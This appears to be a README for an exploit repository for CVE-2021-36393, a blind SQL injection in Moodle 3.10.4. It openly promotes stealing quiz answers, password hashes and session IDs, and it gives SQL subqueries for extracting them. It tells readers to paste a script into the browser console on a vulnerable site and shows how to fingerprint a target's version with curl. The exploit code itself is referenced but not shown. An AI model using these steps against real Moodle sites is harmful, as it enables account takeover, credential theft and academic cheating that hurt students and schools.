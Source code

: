 ### CVE-2021-36393

Error-based blind SQL injection with bit-shifting approach for Moodle 3.10.4.

Allows an attacker to perform arbitrary database queries. For example, you can steal:

- test answers from the database

  Modify the [`script.js`](script.js) file and run it on route `/mod/quiz/attempt.php?attempt=...&cmid=...`

- user password hashes:
  ```sql
  (SELECT password FROM mdl_user WHERE id = 2 LIMIT 1)
  ```

- user sessions:
  ```sql
  (SELECT sid FROM mdl_sessions ORDER BY id DESC LIMIT 1)
  ```

### How to use it?

You must be logged in and enrolled in at least one course. The just copy the [`script.js`](script.js) code into your
browser console and run it on a website that has the vulnerable version of Moodle installed.

### How to check the installed version of Moodle?

```bash
DOMAIN="example.com"
curl -s https://$DOMAIN/lib/upgrade.txt | head
```
